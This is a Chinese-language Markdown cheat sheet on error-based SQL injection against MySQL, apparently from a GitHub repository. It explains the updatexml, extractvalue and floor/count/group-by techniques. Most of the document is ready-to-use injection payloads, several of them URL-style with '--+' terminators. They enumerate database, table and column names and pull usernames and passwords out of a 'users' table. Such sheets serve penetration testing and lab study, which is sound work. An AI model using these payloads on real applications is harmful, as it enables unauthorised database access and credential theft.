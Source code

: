 ## 报错注入
报错注入是通过特殊函数在人为造成错误情况下，在输出错误结果的同时获取我们想要的信息，报错注入可以分为这几大类

- BingInt等数据溢出
- 函数参数格式错误
- 主键/字段重复
<br/>


### updatexml
`UPDATEXML (XML_document, XPath_string, new_value); `  作用：改变文档中符合条件的节点的值
适用版本: 5.1.5+
原理：因为0x7e为`~`不是xml格式的语法，导致程序出现报错，利用错误提示来获取我们想要的信息。但是限制最大长度为32
```sql
updatexml(1,concat(0x7e,(select group_concat(SCHEMA_NAME) from information_schema.SCHEMATA),0x7e),1) --+ 获取全部数据库名

updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x7e),1) --+ 获取当前数据库的表名

updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name='users'),0x7e),1) --+ 获取获取表的字段

updatexml(1,concat(0x7e,(select group_concat(username,password) from users),0x7e),1) --+ 获取数据
```

### extractvalue
`EXTRACTVALUE (XML_document, XPath_string)`  作用：对XML文档进行查询的函数
适用版本: 5.1.5+
原理同updatexml一样，同样限制最大长度为32
```sql
extractvalue(1,concat(0x7e,(select group_concat(schema_name) from information_schema.schemata))) --+ 获取全部数据库名

extractvalue(1,concat(0x7e,(select%20 group_concat(table_name) from information_schema.tables where table_schema=database()))) --+ 暴露数据库名

extractvalue(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name='users'))) --+ 获取获取表的字段

extractvalue(1,concat(0x7e,(select group_concat(username,password) from users))) --+ 获取数据
```

### floor
floor(),count(),group by()函数一起使用会冲突导致报错
```sql
select * from users where id=1 and (select 1 from (select count(*),concat(database(),floor(rand(0)*2))x from information_schema.tables group by x)a);  --+获取数据库名

select * from users where id=1 and (select 1 from (select count(*),concat((select table_name from information_schema.tables where table_schema=database() limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a); --+ 获取表名

select * from users where id=1 and (select 1 from (select count(*),concat((select column_name from information_schema.columns where table_schema=database() and table_name='users' limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a); --+ 获取表的字段

select * from users where id=1 and (select 1 from (select count(*),concat((select username from users limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a); --+ 获取数据
```
